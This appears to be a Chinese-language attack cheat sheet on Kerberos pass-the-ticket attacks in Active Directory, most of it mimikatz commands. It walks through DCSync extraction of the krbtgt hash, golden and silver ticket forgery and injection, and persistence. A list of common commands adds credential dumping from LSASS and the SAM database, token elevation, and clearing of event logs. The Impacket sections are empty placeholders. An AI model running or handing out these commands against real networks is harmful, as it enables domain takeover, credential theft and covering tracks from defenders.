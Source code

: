 ```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

```bash
// Some code
```

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

```bash
// Some code
```

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据，例如访问共享目录
\\server.target.com\sharedfolder
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}

## 常用命令

### mimikatz.exe

```powershell
# 列出系统上的所有票据
sekurlsa::tickets /export
# 提升权限
privilege::debug
# 提取当前用户凭证
sekurlsa::logonpasswords
# 提取本地SAM数据库中的NTLM哈希
lsadump::sam
# 列出当前用户的 Kerberos 票据（TGT 和 TGS）
sekurlsa::tickets
# 直接提取列出的票据
sekurlsa::tickets /export
# 列出当前用户的所有令牌
token::list
# 在令牌里发现有高权限的账户后，提升权限
token::elevate
# 清除日志
event::clear
```

### 其他

```bash
# 查域SID
whoami /user
whoami /groups
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
